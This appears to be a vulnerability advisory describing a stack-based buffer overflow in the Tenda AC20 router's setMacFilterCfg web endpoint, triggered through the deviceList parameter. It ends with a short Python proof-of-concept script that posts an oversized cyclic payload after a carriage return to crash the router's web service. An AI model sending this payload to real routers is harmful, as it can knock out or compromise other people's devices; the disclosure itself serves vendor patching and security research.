



# Stack-Based Buffer Overflow in Tenda AC20 (firmware V16.03.08.12) setMacFilterCfg

## Summary

A stack-based buffer overflow vulnerability in the Tenda AC20 router (firmware V16.03.08.12) allows unauthenticated remote attackers to execute arbitrary code or cause denial of service (DoS) via the `deviceList` parameter in the `/goform/setMacFilterCfg` endpoint. The flaw resides in the `sub_46A2AC` function, which processes the `deviceList` input with unsafe string operations lacking bounds checking, enabling stack corruption.

## Details


*   **Vendor**: Tenda

*   **Product**: Tenda AC20

*   **Firmware Version**: V16.03.08.12

*   **Firmware Download**: [https://www.tenda.com.cn/material/show/3264](https://www.tenda.com.cn/material/show/3264)

*   **Component**: `/goform/setMacFilterCfg` (functions `formSetMacFilterCfg` and `sub_46A2AC`)

*   **Vulnerability Type**: Stack-Based Buffer Overflow (CWE-121)

*   **CVE ID**: Pending

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

## Description

The vulnerability exists in the `formSetMacFilterCfg` function, which handles HTTP POST requests to the `/goform/setMacFilterCfg` endpoint. The `deviceList` parameter is retrieved via `websGetVar` and passed to the `sub_46A2AC` function for processing.

Analysis of the code indicates that `sub_46A2AC` processes the `deviceList` input, potentially using unsafe string operations (e.g., `strcpy`) to copy data from `deviceList` into a fixed-size stack buffer. When `deviceList` contains a `\r` (carriage return) followed by an overly long payload, the portion after `\r` is copied without validating its length against the buffer size. This causes the stack buffer to overflow, overwriting adjacent memory (including return addresses, saved registers, or other critical data).

This vulnerability allows attackers to:




*   Cause a denial of service (DoS) by crashing the router’s web management service.

*   Achieve remote code execution (RCE) by crafting a malicious payload with ROP gadgets to control program flow.

## PoC: Python Exploit Script


```
from pwn import \*
import requests
payload = cyclic(1000)
url = "http://192.168.31.149/goform/setMacFilterCfg"
cookie = {"Cookie": "password=rfl1qw"}
data = {"macFilterType": "black", "deviceList": b"\r" + payload}
res = requests.post(url, cookies=cookie, data=data)
res = requests.post(url, cookies=cookie, data=data)
print(res.text)
```

